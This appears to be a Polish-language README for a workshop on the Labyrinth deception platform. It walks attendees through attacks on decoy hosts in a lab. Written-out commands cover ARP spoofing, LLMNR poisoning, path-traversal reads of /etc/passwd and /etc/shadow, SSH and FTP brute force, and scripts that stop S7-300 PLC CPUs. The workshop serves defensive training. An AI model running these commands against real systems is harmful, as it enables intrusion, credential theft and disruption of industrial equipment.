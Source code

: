 # Witamy na Advanced Threat Summit 2023

Wszystko, czego możesz potrzebować podczas warsztatów, jest dostępne w tym repozytorium.

## Uzyskiwanie dostępu

Na początek przejdź do naszego stanowiska testowego:

1. **Poświadczenia do AdminVM** - możesz użyć dowolnej przeglądarki internetowej:
```
URL: 
Username:
Password:  
```
2. **Poświadczenia do atakującego hosta** - z tego hosta będziesz przeprowadzać ataki. Użyj SSH i następujących
Poświadczeń: 
```
Host:
Username:
Password:
```
## Terminologia, która będzie dzisiaj używana
Ze względu na fakt, że dziś używamy platformy Labyrinth Deception jako przykładu platformy cyber decepcji, ma ona swoje własne terminy, które będą dziś aktywnie wykorzystywane::

1.	**Point (Punkt)** = wabik sieciowy, przynęta, spreparowane usługi sieciowe.
> [!NOTE]
> Punkt NIE JEST oddzielną maszyną wirtualną.

2.	**Honeynet** = segment sieci, w którym działają Punkty. Służy do określenia sieci VLAN, w której mają działać Punkty.

3.	**Seeder	Tasks** = wabiki plikowe, nawigacja okruszkowa używana do logicznego łączenia prawdziwej i spreparowanej infrastruktury.

4.	**Seeder Agent** = program, który rozprowadza Seeder Tasks na rzeczywistych hostach.
5. **AdminVM (konsola zarządzania)** = główny moduł kontrolujący system.
6. **WorkerVM (węzeł roboczy)** = węzeł, na którym uruchomione są Punkty.

## Transkrypcja poleceń
Ponadto udostępniamy transkrypcję wszystkich poleceń, aby ułatwić korzystanie z nich. Nawet jeśli przegapiłeś jakąkolwiek część prezentacji, możesz skorzystać z tych notatek, aby kontynuować ćwiczenia.

> [!IMPORTANT]
> **\<any data>** wskazuje, że należy wkleić własne dane, które są wymienione wewnątrz nawiasów.
>
> **[options]** wskazuje, że ta część (lub części) polecenia jest opcjonalna i może zostać pominięta. Wybór wielu opcji jest wyświetlany za pomocą / (ukośnika).

#### Przypadek 1: wykrywanie skanowania sieci
```
nmap [-sS/sT/sW/sM/sU/sF/sX] ​<Point IP>
```
#### Przypadek 2: łączenie się z hostem przy użyciu danych z wabików plikowych (breadcrumbs)

1. Przejdź do Seeder Agents -> Tasks
2. Wybierz ssh_txt_credentials lub ssh_config z listy
3. Kliknij w trzykropek, a następnie Details
4. Użyj tych poświadczeń, aby się zalogować:
```
ssh <user>@<Point IP>
```
#### Przypadek 3: ARP spoofing

```
sudo ettercap -i <interface> -T -M arp /<host 1>// /<host2>//
```
Alternatywnie można użyć bettercap:
```
sudo bettercap
net.probe on
net.show
set arp.spoof.targets <Point IP>
set arp.spoof.fullduplex false
arp.spoof on
// after some time
arp.spoof off
```
Odnośnik: [ettecap](https://www.ettercap-project.org/) i [bettercap](https://github.com/bettercap/bettercap) source

#### Przypadek 4: LLMNR / NBT-NS Poisoning

W tym celu użyjemy programu *Responder*. Jest on już zainstalowany. Wszystko, co musisz zrobić, to uruchomić polecenie:
```
cd Responder
sudo python2 Responder.py -I eth0
```
Odnośnik: [Responder source](https://github.com/SpiderLabs/Responder)

#### Przypadek 5: S7comm Malformed PDU

W tym przypadku istnieje [skrypt](https://github.com/ad-labyrinth/ATS2023/blob/main/scripts/S7_Malformed_PDU.py) dostępny w tym repozytorium - wystarczy go uruchomić:

```
cd S7_malformed_PDU
python3 S7_malformed_PDU.py -a <Point IP>
```
Lub:
```
cd S7_malformed_PDU
python3 S7_malformed_PDU.py --plc_ip_addr <Point IP>
```

#### Przypadek 6: Lokalne dołączanie plików
```
curl --insecure https://<Point IP>/\?filename\=../../../etc/passwd 
```
#### [Zaawansowany] Przypadek 7: ponowne użycie poświadczeń

1. Znajdź serwer WWW
```
sudo nmap -sS -sC -p80,443 <Honeynet IP> -vvv
```
2. Eksploruj znaleziony serwer WWW

Wykonaj LFI
```
curl --insecure https://<Point IP>/\?filename\=../../../etc/passwd 
```
Lub:
```
curl --insecure https://<Point IP>/\?filename\=../../../etc/shadow 
```
Wyszukaj dodatkową ścieżkę internetową:
```
dirsearch --wordlists=/home/user/wordlists/directories.txt -u https://<Point IP>/ 
```
Odnośnik: [dirsearch](https://github.com/maurosoria/dirsearch)
3. Skonfiguruj listę słów
```
cd wordlists
nano brute.dict
```
4. Wykonaj bruteforce SSH
```
hydra -L brute.dict -P passwords.dict <IP of the ssh host> ssh -t 4 
```
5. Zaloguj się do hosta
```
ssh <user>@<Point IP>
```
6. Ponowne użycie poświadczeń do połączenia z innym hostem
```
ssh <user>@warrior.labyrinth.tech
```

#### [Zaawansowany] Przypadek 8: atakowanie sieci przemysłowych

1. Przeszukanie sieci w poszukiwaniu serwera FTP
```
sudo nmap -sS -sC -p21 -T4 <Honeynet subnet> -vvv 
```
2. Połącz się z serwerem FTP

Spróbuj połączyć się anonimowo:
```
ftp <FTP IP address>
```
Wykonaj bruteforce FTP:
```
cd wordlists
nmap --script ftp-brute -p21 <FTP IP address> --script-args userdb=users.dict,passdb=passwords.dict
```
3. Sprawdź znaleziony plik
```
ls -la
less <file>
```
4. Wykonać żądanie sterowania CPU S7comm
```
cd S7_scripts
python2 s7300stop.py <S7-300 IP>
```
Ponadto można spróbować uruchomić komunikat startowy CPU:
```
python2 s7300cpustart.py <S7-300 IP>
```

Odnośnik: [exploits source](https://github.com/hackerhouse-opensource/exploits)

## Informacje o platformie Labyrinth 
Labyrinth to zespół doświadczonych inżynierów cyberbezpieczeństwa i testerów penetracyjnych, który specjalizuje się w opracowywaniu rozwiązań do wczesnego wykrywania i zapobiegania cyberzagrożeniom.

Techniki decepcji zapewniają atakującym zasadniczą przewagę nad obrońcami, którzy nie są w stanie przewidzieć kolejnego ruchu napastników. **NASZĄ WIZJĄ** jest przesunięcie układu sił na korzyść obrońców.

**NASZĄ MISJĄ** jest dostarczenie wszelkiego rodzaju organizacjom prostego i wydajnego narzędzia do jak najwcześniejszego wykrywania napastników wewnątrz sieci korporacyjnej.

Więcej informacji o platformie: https://labyrinth.tech/ 
